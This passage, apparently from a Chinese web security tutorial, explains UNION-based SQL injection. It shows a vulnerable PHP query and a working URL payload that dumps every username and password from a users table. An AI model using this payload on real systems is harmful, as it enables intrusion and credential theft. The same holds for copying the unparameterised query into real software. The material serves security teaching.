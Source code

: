![image.png](../../_img/02-Web安全/01-基础知识/1664343244401-e4835b3a-f2b1-4f45-9ec3-c3ebd003b9e8.png)


## 2.5、查询数据
**2.5.1、Union注入**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="select * from users where id='$id' limit 0,1"`

当我们输入：
```
http://xmtxsec.top/test.php/?id=-1' union select 1,2,group_concat(concat_ws('-',username,password)) from security.users--+
```

真正执行的SQL语句为：
```
select * from users where id='-1' union select 1,2,group_concat(concat_ws('-',username,password)) from security.users
```

**分析：**`id=-1`为假，紧接着执行后面的SQL语句，使用group_concat函数将所有结果汇总到一起输出并使用concat_ws函数用`-`将username和password字段进行分割。
![image.png](../../_img/02-Web安全/01-基础知识/1664335861035-2de2d564-7fdb-4644-b801-666c24356e79.png)
